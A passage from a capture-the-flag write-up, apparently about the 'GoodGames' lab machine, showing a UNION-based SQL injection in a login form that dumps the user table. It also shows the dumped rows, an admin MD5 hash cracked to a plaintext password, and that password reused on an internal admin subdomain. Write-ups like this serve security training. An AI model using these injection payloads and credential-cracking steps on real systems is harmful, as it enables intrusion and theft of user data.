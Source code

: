 `Welcome emailidnamepassword`

email, id, name, password.

Let's dump user data. Since we have only one reflected column but we want to dump data of multiple columns we will use a seperator and concat it:

`email=' union select 1,2,3,CONCAT_WS(':', id, email, name, password) from user-- -&password=test123`

Response:

```
1:admin@goodgames.htb:admin:2b22337f218b2d82dfc3b6f77e7cb8ec
2:test@mail.com:test123:cc03e747a6afbbcbf8be7668acfebee5
```

This is an md5 hash and admin hash cracks to:

`admin:superadministrator`

Now let's login as admin.

## Foothold and Privilege Escalation

There's a gear on admin top-right profile page. Clicking it redirects us to:

`http://internal-administration.goodgames.htb/`

Add it to `/etc/hosts`. 

![alt text](/assets/images/GoodGames-internal.png)

Let's try admin creds. They work.

![alt text](/assets/images/GoodGames-task.png)